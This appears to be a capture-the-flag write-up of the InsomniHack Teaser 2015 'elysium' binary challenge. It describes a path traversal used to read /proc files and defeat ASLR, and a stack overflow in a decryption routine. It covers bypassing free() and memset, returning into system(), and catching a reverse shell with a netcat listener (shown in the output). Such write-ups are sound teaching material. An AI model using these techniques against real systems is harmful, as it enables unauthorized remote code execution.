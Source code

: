 ```yaml
---
layout: post
title: "InsomniHack Teaser - elysium writeup"
categories: writeups insomnihack-teaser-2015
tags: exploitation
authors:
  - saelo
---
```


Just a quick writeup for the elysium (200pts) challenge from the InsomniHack Teaser CTF 2015. We ended up making the 6th place during the CTF :)

We're given a [binary]({{ site.url }}/files/insomnihack-teaser-2015/elysium) which, supplied with a port number, binds to that port and listens for incoming connections. Upon receiving an incoming connection it speaks a custom protocol with the client.

    > file elysium
    elysium: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b1730cced4284ad9a58d8948eaa55eb3beaccd90, not stripped
    > checksec elysium
    RELRO           STACK CANARY      NX            PIE             FILE
    Partial RELRO   No canary found   NX enabled    PIE enabled     elysium

After spending some time reversing the protocol I wrote a small [client](https://github.com/kitctf/writeups/blob/master/insomnihack-teaser-2015/elysium/code/client.py) to communicate with the server.
Here's a sample interaction with the server:

    Armadyne robots controller
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > 2
    Total units : 2925
    Medical units : 320
    Military units : 75
    Social units : 630
    Spy units : 227
    Shield units : 329
    Communication units : 250
    Transport units : 312
    Computer units : 782
    Available units : 5267
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > a 100
    Computer units added
    1) Get informations <name>
    2) List units
    3) Add medical units <count>
    4) Add military units <count>
    5) Add social units <count>
    6) Add spy units <count>
    7) Add shields units <count>
    8) Add communication units <count>
    9) Add transport units <count>
    a) Add computer units <count>
    *) Exit
    > 2
    Total units : 3025
    Medical units : 320
    Military units : 75
    Social units : 630
    Spy units : 227
    Shield units : 329
    Communication units : 250
    Transport units : 312
    Computer units : 882
    Available units : 5167


## Bug #1

Notice the "Get informations" option in the menu? This let's us read a file relative to a folder called 'Elysium_citizenship_authorization' in the current directory. Of course it does not check for path traversal so we can dump any file we want with this.

This is especially interesting since reading /proc/self/maps will allow us to bypass most of the ASLR of the target process (except the stack internal randomization). Also we can now retrieve the remote libc and get important offsets from there.

## Bug #2

In the cipher_recv function we see this:

![cipher_recv]({{ site.url }}/imgs/insomnihack-teaser-2015-cipher_recv.jpg)

'decrypted_buffer' is our decrypted message and 'data_buffer' is returned to the caller (contains just the user data without the hash). 'cmp' verifies that the given hash matches the other one given as hex string.

There's a bug in there, did you spot it?

The programmer expected the first part of the message (the sha1 hash) to always be 40 characters in size. Since we fully control the position of the ':' in the payload we can thus overflow the 'hash_buffer' which is located on the stack.

Exploitation of this bug turned out not to be so easy. Here's why: See the two calls to memset() and free() above? The first argument to those functions lies on the stack as well, between the buffer we're overflowing and the return address.
Here's the stack layout of the cipher_recv function:

    .text:000016C2 var_6D           = byte ptr -6Dh
    .text:000016C2 hash_buffer      = byte ptr -45h         # we're overflowing this one
    .text:000016C2 buf              = byte ptr -1Ch
    .text:000016C2 decrypted_buffer = dword ptr -18h        # get's freed
    .text:000016C2 recv_buffer      = dword ptr -14h        # get's freed as well
    .text:000016C2 var_10           = dword ptr -10h
    .text:000016C2 data_buffer      = dword ptr -0Ch
    .text:000016C2 socket           = dword ptr  8
    .text:000016C2 len_ptr          = dword ptr  0Ch
    .text:000016C2 decrypter        = dword ptr  10h


Now, free() will basically kill the process for any argument that's not a valid pointer to a heap chunk or NULL (from the man page: "If ptr is NULL, no operation is performed.").

The binary does some heap randomization after receiving a connection, preventing us from easily knowing the offsets of heap chunks from the start of the heap. However, it is possible to bypass this since the binary uses srand(time()) to initialize the prng, enabling us to calculate the same random number sequence as well. See [this exploit](https://twitter.com/OwariDa/status/554495951466135552) for an example on how to do this.

I actually missed that fact during the CTF and so went another route:

Besides /proc/self/maps there is another nifty file in /proc:

>        /proc/[pid]/syscall (since Linux 2.6.27)
>             This file exposes the system call number and argument registers for the system call
>             currently being executed by the process, followed by the values  of
>             the stack pointer and program counter registers.  The values of all six argument 
>             registers are exposed, although most system calls use fewer registers.

There's a pointer to userland esp in there! Neat! That enables us to bypass the stack internal randomization and calculate exactly at which address the buffer we're overflowing is located. At this point we're able to bypass the two free()s by pointing each pointer to itself and pointing the length pointer to 0x00000004, causing memset to overwrite it's argument pointer with zero. The subsequent call to free() will then become a nop.

At this point we have EIP control and can return into a little gadget to adjust the stack past the length pointer, then return into system() with the first argument pointing to our payload string on the stack (whose address we now know). I used a quick and dirty reverse shell payload for my exploit, see [@OwariDa](https://twitter.com/OwariDa)'s exploit for a better way to do this :)

Find the full exploit [here](https://github.com/kitctf/writeups/blob/master/insomnihack-teaser-2015/elysium/code/exploit.py).

    > ./exploit.py 
    [*] got target memory layout
    [*] stack buffer @ 0xbf8c25a3
    [*] controlled data @ 0xb7710104
    [*] system() @ 0xb73c3100
    [*] sending final payload...
    [*] done, check your listener

And, in a different shell:

    > nc -vl 0.0.0.0 4444
    Listening on [0.0.0.0] (family 0, port 4444)
    Connection from [54.76.18.92] port 4444 [tcp/*] accepted (family 2, sport 54559)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(esylium) gid=1001(esylium) groups=1001(esylium)
    $ ls
    elysium
    Elysium_citizenship_authorization
    reboot
    $ ./reboot

    --------------------------------------------------------
                     System Reboot >>> 5
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 4
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 3
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 2
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 1
    --------------------------------------------------------

    --------------------------------------------------------
                     System Reboot >>> 0
    --------------------------------------------------------

    --------------------------------------------------------
                INS{reb00t_R0pch4ain_FTW}
    --------------------------------------------------------
    $ 

Now all that's left to do is to watch the [movie](http://www.imdb.com/title/tt1535108/) some time ... ;)

